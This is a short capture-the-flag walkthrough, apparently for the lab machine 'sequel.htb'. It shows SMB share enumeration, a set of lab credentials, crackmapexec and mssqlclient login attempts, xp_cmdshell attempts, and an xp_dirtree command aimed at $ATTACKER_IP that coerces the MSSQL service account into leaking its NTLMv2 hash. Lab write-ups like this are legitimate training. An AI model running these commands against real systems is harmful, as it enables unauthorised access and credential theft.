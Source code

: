 OK , there is Public Share directory

```
smbclient -L //$TARGET/Public
```

dir

download SQL Server Procedures.pdf

Obtain some credentials :&#x20;

user=PublicUser ; password=GuestUserCantWrite1

```
cme smb $TARGET -u 'PublicUser' -p 'GuestUserCantWrite1'
```

-> Authentication OK but nothing new

```
cme smb $TARGET -u 'PublicUser' -p 'GuestUserCantWrite1' --shares
```

```
cme winrm $TARGET -u 'PublicUser' -p 'GuestUserCantWrite1'
```

-> Both failed

## MSSQL Footprinting

```
cme mssql $TARGET -u 'PublicUser' -p 'GuestUserCantWrite1'
```

-> Failed

```
cme mssql --local-auth $TARGET -u 'PublicUser' -p 'GuestUserCantWrite1'
```

-> OK

```
mssqlclient.py PublicUser:GuestUserCantWrite1@sequel.htb
```

```
xp_cmdshell whoami
enable_xp_cmdshell
```

-> Both failed

## Stealing NTLMv2 Hash of service account from MSSQL

```
xp_dirtree\\$ATTACKER_IP\fake\share
```

-> Important to put a directory "fake" + a filename "share"
